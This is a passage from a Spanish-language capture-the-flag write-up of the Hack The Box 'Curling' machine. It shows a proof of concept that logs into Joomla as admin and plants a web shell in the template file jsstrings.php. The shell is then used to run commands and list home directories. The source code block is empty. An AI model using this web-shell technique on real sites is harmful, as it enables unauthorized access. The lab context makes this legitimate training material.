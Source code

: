 ```python
```

Ejecutando la poc:

```text
xbytemx@laptop:~/htb/curling$ python shell_uploader.py
[+] Checking: http://10.10.10.150
[+] Found init token: 9a1a9361861f0818bee33a93c029c15d
[+] Preparing login request
[+] At this stage we should be logged-in as an admin :)
[+] File to change: jsstrings.php
[+] Grabbing new token from logged-in user: 8d814181495128ed49b47c57c1d626ce
[+] Shellname: jsstrings.php
[+] Shell is ready to use: /templates/beez3/jsstrings.php?x=id
[+] Checking:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[+] Module finished.

```

Correcto, hemos podido realizar un RCE sobre el servidor.

# Exploring from RCE

Explorando un poco desde el RCE (en lugar de buscar una reverse shell):

```text
xbytemx@laptop:~/htb/curling$ http "http://10.10.10.150/templates/beez3/jsstrings.php?x=ls%20/home%20-lah"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 91
Content-Type: text/html; charset=UTF-8
Date: Mon, 07 Jan 2019 05:34:06 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding

total 12K
drwxr-xr-x  3 root   root   4.0K May 22  2018 .
drwxr-xr-x 23 root   root   4.0K May 22  2018 ..
drwxr-xr-x  6 floris floris 4.0K May 22  2018 floris

xbytemx@laptop:~/htb/curling$ http "http://10.10.10.150/templates/beez3/jsstrings.php?x=ls%20/home/floris%20-lah"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 250
Content-Type: text/html; charset=UTF-8
Date: Mon, 07 Jan 2019 05:34:22 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding

total 44K
drwxr-xr-x 6 floris floris 4.0K May 22  2018 .
drwxr-xr-x 3 root   root   4.0K May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3.7K Apr  4  2018 .bashrc
drwx------ 2 floris floris 4.0K May 22  2018 .cache
```